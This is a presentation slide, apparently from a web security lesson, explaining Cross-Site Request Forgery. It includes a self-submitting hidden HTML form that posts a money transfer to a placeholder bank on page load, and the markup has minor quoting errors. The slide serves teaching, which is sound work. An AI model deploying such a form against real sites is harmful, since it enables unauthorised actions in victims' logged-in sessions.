

# Cross-Site Request Forgery (CSRF)
CSRF Attack Example
If the bank’s website is only using POST requests, hyperlinks won’t work. Instead, the attack can be delivered in a self-submitting <form> tag:

<body onload="document.forms[0].submit()>
       <form id=”csrf” action="https://somebank.com/transfer" method="POST">
             <input type="hidden" name="account" value=“67890"/>
             <input type="hidden" name="amount" value="5000"/>
       </form>
</body>